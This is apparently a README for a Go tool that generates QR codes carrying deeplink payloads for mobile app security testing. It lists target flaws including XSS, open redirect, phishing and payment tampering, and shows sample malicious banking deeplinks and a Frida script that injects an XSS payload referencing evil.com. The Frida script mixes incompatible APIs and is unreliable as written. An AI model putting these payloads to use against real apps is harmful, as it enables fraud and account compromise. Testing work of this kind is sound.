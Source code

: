 # QRCoder
QR generator for Mobile Security testing. 
For QR gen uses this "github.com/skip2/go-qrcode". Thx! 


# USAGE:

Example: go run main.go deeplink://aplication/api/v1/ppp

Example: go run main.go deeplink://aplication/api/v1/ppp?title=hello#popla=gopla#index=123#toto=3v

Example: QRCoder.exe superbank://linktoapp/p2p

If use Windows - do not forgot double quotes. Example: QRCoder.exe "ddd://ooooo?dsdsasd=123&dddaq=1"

Payloads are in payloads.txt. But you can also add your specified payloads, line by line.


![image](https://github.com/d0ntbe/QRCoder/assets/88555610/d6c7e865-2216-46bc-b04c-ae28a22e9730)

# Vulns: 

1) Open Redirect
2) XSS
3) DoS
4) Fishing (Phishing)
5) Banking: payment by details from
6) Local SQLi (Android, IOS)
7) Broken Object Level Authorization (Auth Bypass Mobile App, Read Local File) 

Examples:
 
appbank://link?https://www.p@yment.com/account=78127312936781&sum=100&cur=rub -> ![image](https://github.com/d0ntbe/QRCoder/assets/88555610/7bd23cb9-9108-456f-8d18-53e428cd8180)

appbank://link?https://www.p@yment.com/account=youtubik.ev11il.com&sum=100&cur=rub -> ![image](https://github.com/d0ntbe/QRCoder/assets/88555610/d566f0b2-a34f-4caf-b469-d07ee9f69f3d)


# Also, for example, it could be intercepted by Frida. Firstly, u have to find out the right function in the code, wich works with QR-code data. 

It works differently for different Apps. JS Code example for Frida:
```
var frida = require('frida');

function processQRCode(data) {
console.log(data);
}

Interceptor.attach(Module.findExportByName('SOME_CLASS_LIB_or_SMTH', 'processQRCode'), {
onEnter: function(args) {
args[0] = 'superbank://ooooo?dsdsasd=<script>alert(1)</script>&dddaq=http://evil.com';  // your payload
processQRCode(args);
}
});

frida.spawn('com.example.app').then(session => {
session.attach('SOME_CLASS_LIB_or_SMTH').then(() => {
console.log('Attached to SOME_CLASS_LIB_or_SMTH');
});
});
```

